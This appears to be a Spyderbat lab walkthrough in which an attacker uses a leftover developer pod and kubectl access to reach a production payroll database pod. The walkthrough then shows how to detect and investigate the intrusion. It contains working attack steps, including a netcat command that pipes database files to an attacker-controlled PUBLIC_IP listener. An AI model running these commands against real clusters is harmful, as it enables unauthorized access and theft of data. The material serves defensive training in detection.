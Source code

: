# Lateral Movement Within the Cluster

This scenario shows an attacker accessing one portion of a cluster, and using the access in that namespace to move to another and exfiltrate data.

## Running the Exploit

For this scenario, we are going to use some debugging resources left over by Bob, a developer who decided he needed to be able to get direct access to the RSVP app to debug it. Since he forgot to clean up after solving the bugs, there is now an extra pod in the build namespace with some convenient developer tools.

Let's exec into the developer pod to begin.

```sh
kubectl exec -it -n lateral-movement-build bobdev -- /bin/bash
```

Let's take a look around to see what we can do:

```sh
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```
```sh
sudo -l
```
```
bash: sudo: command not found
```

```sh
ps -aux
```
```
bash: ps: command not found
```

Looks like a pretty locked down container. Let's use a one-liner to check what is running on it instead of `ps`:

```sh
for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
```

```
sleep infinity 
/bin/bash 
/bin/bash
```

It looks like this container isn't doing anything (aside from our shell); it must just be for debug access.

Taking a look at the bash history, it looks like Bob used kubectl to get into another namespace:

```sh
history
```
```
    1  ls
    2  kubectl config view
    3  kubectl get pods -A
    4  kubectl get pods -n lateral-movement-prod
    5  kubectl describe pods -n lateral-movement-prod
    6  kubectl exec -n lateral-movement-prod payrolldb-6f7996c855-vrmrt -- hostname
    7  id
    8  sudo -l
    9  ps -aux
   10  for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
   11  history
```

It looks like the deployment he was accessing is still here:

```sh
kubectl get pods -n lateral-movement-prod
```
```
NAME                         READY   STATUS    RESTARTS   AGE
payrolldb-6cd4447758-2zcq4   1/1     Running   0          3m9s
```

Let's follow in Bob's footsteps.

```sh
kubectl exec -it -n lateral-movement-prod $(kubectl get pods -n lateral-movement-prod -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

Now, we have ended on a pod in the production namespace, and a database pod on top of that. Let's take a look around:

```sh
whoami
```
```
root
```
```sh
ls
```
```
bin  boot  data  dev  docker-entrypoint-initdb.d  etc  home  js-yaml.js  lib  lib32  lib64  libx32  media  mnt	opt  proc  root  run  sbin  srv  sys  tmp  usr	var
```
```sh
ls data/
```
```
configdb  db
```

It looks like we have full access to the database:

```sh
ls -la data/db
```

From here, we can directly extract the data we want. For example, using netcat: on a different publicly accessible computer with open ports (such as the jumpserver set up for the external lateral movement demo), run this command:

```sh
# on a separate attacker-controlled server
nc -l 1234 > download
```

Then run this in the pod:

```sh
apt update && apt install netcat
```
```sh
# make sure to edit this with the correct PUBLIC_IP of the listening server
cat data/db/collection-0-*.wt | nc PUBLIC_IP 1234
```

> <i class="fa fa-circle-info"></i> **Note:**
> 
> This command will not close on its own. After a few seconds, use `Ctrl-C` to stop the command.

On the public server, you should now have the collection-0 file in `download`.

```
[ec2-user@ip-172-32-65-41 ~]$ ls -l
total 20
-rw-r--r--. 1 ec2-user ec2-user 20480 Aug 21 21:48 download
```

## Investigation

Now that we have demonstrated lateral movement within the cluster, let's see what this looks like in Spyderbat. This test should trigger two Spydertraces - one for each container we have accessed. On the Spyderbat Console's Dashboard page, navigate to the Security tab. Under "Recent Spydertraces with a score > 50", there are two new traces, likely labeled `container_shell` or `root_shell` (or `falco_flag`, if you have the Falco integration installed). Select these two traces and click "Start Process Investigation" to start investigating these two traces together.

![The original messy trace](./lateral_movement_messy.png)

At first, the resulting graph may seem like a mess, but it is easy to clean up. First, let's make sure that we have all of the necessary information by zooming in and right-clicking on the root bash processes inside of each container, then selecting "Add X Descendants". You may also need to select "Add X Descendant Connections" if available.

![The right-click menu for one of the bash processes](./lateral_graph_editing.png)

Next, we can take a look at bash's immediate children. It is clear from the tree connections that the `apt` processes have many descendants. In this case, they are mostly irrelevant; just extra processes used in the packaging tool. To remove them, right-click the `apt` processes, and select "Remove X Descendants".


![An example graph of this exploit.](./lateral_movement_process_graph.png)

To further help understand the attack, we can use the bash command viewer: click on the bash process inside each pod and expand the viewer in the top right corner.

![An example of the bash viewer](./bobdev-bash-viewer.png)

With the noise out of the way, we can now more clearly see the sequence of events. On the leftmost machine, the attacker accessed the bobdev container and ran some kubectl commands. Looking at the command for the last kubectl process, we can see an exec into the payrolldb container.

![The details for the kubectl exec process](./kubectl_exec.png)

From there, the attacker explored their access, then installed a data exfiltration command and ran it, connecting to another IP. To ensure that you have the whole picture, you can right-click the `nc` connection and try adding the peer connection, or run a search for the remote IP address.

Once you have a graph with all the information you are interested in, you can save it and share it with other users in your organization by clicking "Copy Investigation Link" at the top of the graph view.

## Next Steps

With the data gathered in this investigation, we can now prepare a few recovery steps:

- Determine what data was in the file exfiltrated with the `nc` command.
- Remove the development container that Bob left.
- Check for any other containers that should not exist in the production environment. Spyderbat's Search feature could help with this - search for Containers where the image matches `*devops*`, for example.
- Rotate the kubectl access keys used to access the devops container and the payroll container.
- Revise debugging procedures for the affected applications.
- [Set up a Spyderbat cluster policy](https://docs.spyderbat.com/tutorials/guardian/how-to-put-guardrails-around-your-k8s-cluster-spyctl) to prevent unauthorized pods and images from being run in the cluster

## Further Reading

- [A detailed overview of Spyderbat's Search tool - Spyderbat Documentation](https://docs.spyderbat.com/concepts/search)
- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)

